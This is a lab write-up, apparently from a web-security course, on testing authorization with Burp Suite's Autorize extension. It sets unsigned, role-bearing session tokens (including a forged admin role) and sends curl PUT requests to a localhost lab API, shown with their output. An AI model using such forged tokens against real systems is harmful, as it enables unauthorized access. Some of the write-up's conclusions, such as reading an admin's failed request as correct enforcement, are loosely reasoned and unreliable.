 
# Lab 0x06: Testing with Autorize 👾

## 📄 Understanding Burp Suite, Autorize, and Curl Commands

### 🛡️ Introduction
This lab focuses on using the **Autorize** extension in Burp Suite and executing curl commands to identify and exploit authorization vulnerabilities in a web application.

---

## 🏗️ Setup

### Tool: Burp Suite with Autorize Extension
**Purpose:**  
- Test web application security by manipulating session cookies to identify authorization vulnerabilities.

### Utilizing Autorize Tab
1. Add the session cookie:
   ```
   Cookie: session=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVzc2FteSIsInJvbGUiOiJhZG1pbiJ9.
   ```
2. Once set, all requests routed through Burp Suite will use this session cookie.
3. Decode the cookie to verify it belongs to the user `jessamy`.

---

## 🔍 Detailed Commands

### Command to Test as Staff User
**Terminal Input:**
```bash
curl -X PUT --proxy localhost:8080 -H "Content-Type: application/json" -b "session=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVyZW15Iiwicm9sZSI6InN0YWZmIn0=." -d '{"username":"jeremy", "bio": "New bio v2."}' http://localhost/labs/api/v2/account.php
```

**Output:**  
```json
{"status":"success","message":"Bio updated successfully"}
```

**Explanation:**  
The request with Jeremy's staff credentials was successful, which may indicate an authorization issue if staff aren’t permitted to edit bios.

---

### Command to Test as Admin User
**Terminal Input:**
```bash
curl -X PUT --proxy localhost:8080 -H "Content-Type: application/json" -b "session=eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0=.eyJ1c2VyIjoiamVzc2FteSIsInJvbGUiOiJhZG1pbiJ9." -d '{"username":"jeremy", "bio": "New bio v2."}' http://localhost/labs/api/v2/account2.php
```

**Output:**  
```json
{"status":"error","message":"Unauthorized"}
```

**Explanation:**  
This attempt using admin credentials resulted in an error, showing that role-based access controls for this action are enforced correctly.

---

## 📋 Summary

### What We Learned
- Setting specific session cookies in Autorize helps simulate and test different user roles and permissions.
- The extension helps confirm if web applications properly restrict or allow actions based on user roles.

### Why It Matters
- Testing with different user roles ensures that only authorized users can perform sensitive actions, preventing privilege escalation or unauthorized access.

---

## 🔄 Next Steps
1. Further Testing:
   - Test more scenarios with different user roles and endpoints.
2. Document Findings:
   - Record tests and outcomes for remediation of vulnerabilities.
